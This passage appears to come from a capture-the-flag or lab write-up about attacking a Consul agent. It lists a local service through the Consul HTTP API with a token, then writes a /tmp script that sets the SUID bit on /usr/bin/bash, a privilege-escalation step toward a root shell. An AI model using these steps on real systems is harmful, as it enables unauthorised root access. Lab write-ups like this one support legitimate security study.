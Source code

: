 ```json
    "Port": 0,
    "Address": "",
    "Weights": {
      "Passing": 1,
      "Warning": 1
    },
    "EnableTagOverride": false,
    "Datacenter": "dc1"
  }
}
```
listing a specific service
```bash
curl -s \
  -H "X-Consul-Token: ${token}" \
  -X GET 'http://127.0.0.1:8500/v1/agent/service/meow' |\
  jq "."
```
```json
{
  "ID": "meow",
  "Service": "meow",
  "Tags": [],
  "Meta": {},
  "Port": 80,
  "Address": "127.0.0.1",
  "TaggedAddresses": {
    "lan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    },
    "wan_ipv4": {
      "Address": "127.0.0.1",
      "Port": 80
    }
  },
  "Weights": {
    "Passing": 1,
    "Warning": 1
  },
  "EnableTagOverride": false,
  "ContentHash": "8fb6dc4f012493d5",
  "Datacenter": "dc1"
}
```

writing a bash script in /tmp that will make a suid bash 
```bash
echo 'chmod +s /usr/bin/bash' > blnkn.sh
cat blnkn.sh
chmod +s /usr/bin/bash
chmod +x blnkn.sh
 which bash
/usr/bin/bash
ls -la $(which bash)
-rwxr-xr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
```
